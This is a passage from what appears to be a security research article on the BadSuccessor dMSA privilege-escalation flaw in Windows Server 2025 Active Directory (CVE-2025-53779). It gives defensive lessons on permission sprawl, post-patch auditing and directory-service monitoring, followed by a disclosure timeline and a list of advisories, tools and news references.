**Takeaway:** Always evaluate vulnerabilities against your own environment's risk profile, not just the vendor's CVSS score.

### Lesson 3: Permission Sprawl is the Root Cause
The 91% statistic is not a reflection of a single misconfiguration—it is the accumulated result of years of "just add CreateChild permission so the provisioning script works" decisions. Permission sprawl in Active Directory is the single greatest enabler of privilege escalation attacks.

**Takeaway:** Implement a regular (quarterly at minimum) review of all delegated permissions in AD. Use BloodHound CE to visualize attack paths.

### Lesson 4: Patching Is Not Remediation
The August 2025 patch prevents *new* BadSuccessor exploitation. It does not retroactively fix dMSA objects that were maliciously configured during the 83-day window between disclosure (May 21) and patch (August 12). The Ouroboros technique further demonstrates that patching the KDC logic is insufficient without auditing existing objects.

**Takeaway:** After applying any security patch, conduct a retroactive audit of all objects that could have been compromised during the vulnerability window.

### Lesson 5: Identity Is the New Perimeter
BadSuccessor required no network exploitation, no malware, no phishing, and no zero-day code execution. The entire attack chain occurred through legitimate Active Directory operations (LDAP writes + Kerberos authentication). This reinforces the reality that **identity systems are the primary attack surface** in modern enterprise environments.

**Takeaway:** Invest in identity threat detection and response (ITDR) capabilities as a core security function, not an afterthought.

### Lesson 6: Detection Must Be Proactive, Not Reactive
Organizations that had Event ID 5136/5137 monitoring in place before the BadSuccessor disclosure could detect exploitation attempts in real-time. Organizations that scrambled to enable auditing after the disclosure had a blind spot covering the most dangerous period.

**Takeaway:** Enable comprehensive Directory Service auditing **now**, before the next vulnerability is disclosed.

---

## 13. Timeline of Events

| Date | Event |
|---|---|
| **November 2024** | Windows Server 2025 reaches general availability with dMSA feature. |
| **Early 2025** | Yuval Gordon (Akamai) begins researching dMSA architecture. |
| **April 2025** | Akamai reports the vulnerability to Microsoft via coordinated disclosure. |
| **May 21, 2025** | Akamai publicly discloses BadSuccessor with full technical details and the `Get-BadSuccessorOUPermissions.ps1` scanner. |
| **May 22–31, 2025** | Security community publishes analysis, guidance, and detection rules. SharpSuccessor PoC released on GitHub. |
| **June 2025** | Tenable, Semperis, SOC Prime, and Palo Alto Networks publish advisories and IOE/IOC content. NetExec adds `badsuccessor` module. |
| **August 12, 2025** | Microsoft releases the official patch as CVE-2025-53779 in the August 2025 Patch Tuesday (KB5063878 for Server 2025). |
| **October 2025** | Huntress publishes the Ouroboros post-patch persistence technique. Yuval Gordon publishes follow-up research on dMSA as a persistent TTP. |
| **Ongoing** | dMSA manipulation is cataloged as a permanent AD attack technique alongside Kerberoasting, AS-REP Roasting, and DCSync. |

---

## 14. References & Further Reading

### Primary Research
- **Akamai Security Research** — [Abusing dMSA for Privilege Escalation in Active Directory](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)
- **Huntress** — [dMSA Ouroboros: Self-Sustaining Credential Extraction](https://www.huntress.com/blog/dmsa-ouroboros)
- **Yuval Gordon (Akamai)** — [BadSuccessor: Original Technical Disclosure](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)

### Vendor Advisories
- **Microsoft (MSRC)** — [CVE-2025-53779](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-53779)
- **NVD (NIST)** — [CVE-2025-53779 Detail](https://nvd.nist.gov/vuln/detail/CVE-2025-53779)
- **Tenable** — [BadSuccessor FAQ](https://www.tenable.com/blog/badsuccessor-dMSA-active-directory)
- **Semperis** — [BadSuccessor Analysis & Mitigation](https://www.semperis.com/blog/badsuccessor/)

### Tools
- **Akamai** — [Get-BadSuccessorOUPermissions.ps1 (GitHub)](https://github.com/akamai/BadSuccessor)
- **SharpSuccessor** — [GitHub (logangoins)](https://github.com/logangoins/SharpSuccessor)
- **NetExec** — [BadSuccessor Module](https://github.com/Pennyw0rth/NetExec)
- **BloodHound CE** — [SpecterOps](https://bloodhound.specterops.io/)

### Community Analysis
- **SpecterOps** — [BadSuccessor Attack Path Analysis](https://specterops.io/blog/badsuccessor)
- **Palo Alto Networks (Unit 42)** — [BadSuccessor Threat Brief](https://unit42.paloaltonetworks.com/)
- **SentinelOne** — [CVE-2025-53779 Analysis](https://www.sentinelone.com/blog/cve-2025-53779/)
- **Cymulate** — [BadSuccessor Detection Rules](https://cymulate.com/)
- **HackTricks** — [dMSA Abuse Techniques](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dmsa-abuse.html)

### News Coverage
- **The Hacker News** — [BadSuccessor Coverage](https://thehackernews.com/2025/05/badsuccessor-dMSA-active-directory.html)
- **KrebsOnSecurity** — [August 2025 Patch Tuesday Analysis](https://krebsonsecurity.com/2025/08/august-2025-patch-tuesday/)
- **SecurityWeek** — [Microsoft's BadSuccessor Response Controversy](https://www.securityweek.com/badsuccessor-microsoft-response/)
- **Help Net Security** — [BadSuccessor Mitigation Guide](https://www.helpnetsecurity.com/2025/08/badsuccessor/)
- **BleepingComputer** — [dMSA Abuse Advisory](https://www.bleepingcomputer.com/news/security/badsuccessor-dmsa-windows-server-2025/)

---

*This article represents the author's independent research and analysis. All information was compiled from publicly available sources, vendor advisories, and community contributions. The tools and techniques described are intended for authorized security testing and defensive purposes only.*
